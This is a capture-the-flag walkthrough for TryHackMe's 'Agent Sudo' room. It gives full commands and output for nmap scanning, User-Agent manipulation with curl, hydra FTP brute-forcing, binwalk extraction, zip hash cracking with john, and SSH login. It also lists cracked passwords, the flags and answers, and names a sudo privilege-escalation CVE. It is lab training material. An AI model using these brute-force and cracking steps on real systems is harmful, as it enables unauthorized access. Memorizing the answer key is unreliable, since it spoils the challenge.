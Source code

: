 # Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## Chủ đề của

- Network Enumeration
- Web Header Manipulation
- Brute Forcing (FTP)
- Brute Forcing (Zip)
- Steganography
- Cryptography
  - Base64
- OSINT
- CVE-2019-14287 - Sudo < 1.8.28

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine

`No answer needed`

## Enumerate

Enumerate the machine and get all the important information

1. How many open ports?

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ sudo nmap -A -Pn -sC -sV -O 10.10.34.31
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:28 CEST
Nmap scan report for 10.10.34.31
Host is up (0.053s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=21%CT=1%CU=35221%PV=Y%DS=2%DC=T%G=Y%TM=5F79B1F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%II=I%
OS:TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.49 ms 10.8.0.1
2   36.67 ms 10.10.34.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.71 seconds
```

`3`

2. How you redirect yourself to a secret page?

- [http://10.10.34.31/](http://10.10.34.31/)

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

`user-agent`

1. What is the agent name?

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ curl -A "C" -L 10.10.34.31
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

`chris`

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.34.31 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 13:36:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.34.31:21/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344243 to do in 1532:31h, 16 active
[21][ftp] host: 10.10.34.31   login: chris   password: crystal
```

2. Zip file password

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ zip2john _cutie.png.extracted/8702.zip > zip.hash
ver 81.9 _cutie.png.extracted/8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ john zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-04 13:42) 0.6993g/s 37134p/s 37134c/s 37134C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ echo -n 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?

`james`

5. SSH password

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

`hackerrules!`

## Capture the user flag

You know the drill.

1. What is the user flag?

```
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?

```
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$ scp james@10.10.34.31:Alien_autospy.jpg ./
james@10.10.34.31's password:
Alien_autospy.jpg                                            100%   41KB 358.6KB/s   00:00
bibo318@parrot:~/CTFs/tryhackme/Agent Sudo$
```

`roswell alien autopsy`

## Privilege escalation

Enough with the extraordinary stuff? Time to get real.

1. CVE number for the escalation (Format: CVE-xxxx-xxxx)

`CVE-2019-14287`

2. What is the root flag?

```
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

`b53a02f55b57d4439e3341834d70c062`

3. (Bonus) Who is Agent R?

`DesKel`
